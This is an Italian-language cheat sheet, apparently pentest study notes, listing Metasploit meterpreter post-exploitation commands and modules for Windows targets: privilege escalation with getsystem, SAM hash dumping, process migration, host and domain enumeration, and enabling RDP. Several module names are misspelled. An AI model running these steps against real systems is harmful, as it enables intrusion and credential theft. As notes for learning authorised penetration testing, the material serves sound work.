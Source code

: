 # Windows Post Exploitation Modules
Metasploit Framework offre dei moduli in grado di eseguire numerose operazioni di post exploitations per poter enumerare quante piú informazioni su un target dandoci la possibilità di eseguire dei privilege escalation dandoci il via libera dentro la macchina target.

Dopo aver ottenuto una sessione (o shell) meterpeter su un target Windows, possiamo eseguire alcuni comandi utili
```bash
getsystem         # tenta di elevare automaticamente i privilegi
screenshot        # esegue uno screenshot della macchina target
hashdump          # estre il contenuto del database SAM
show_mount        # visualizza la situazione dello storage
```

---

## Moduli post exploitation utili
Ecco alcuni moduli da poter usare dopo aver ottenuto una sessione meterpeter su un target
### windows migrate
modulo 
```bash
use post/windows/manage/migrate                 # per migrare una sessione su un altro processo
use post/windows/gather/win_privs               # per elencare i privilegi dell'utente attuale
use post/windows/gaether/enum_logged_on_userss  # per elencare tutti gli utenti attualmente connessi al target
use post/windows/gather/checkvm                 # per vedere se il target é in realtá una macchina virtuale
use post/windows/gather/enum_applications       # per visualizzare le applicazioni  installate sul target
use post/windows/gather/enum_av_exluded         # per enumerare la soluzione antivirus
use post/windows/gather/enum_computers          # per enumerare il dominio di cui fa parte il target
use post/windows/gather/enum_pathes             # per enumerare le patch sul target (potresti dover migrare in svchost.exe)
# l'equivalente di questo modulo é systeminfo su una shell sul target
use post/windows/gather/enum_shares             # per enumerare le cartelle condivise nel target
use post/windows/gather/enable_rdp              # per abilitare RDP sul target  
```
> Tutte queste informazioni andranno a finire dentro il database di metasploit e saranno visualizzabili con il comando `loot` e salvate dentro la directory `/root/.msf4/loot`
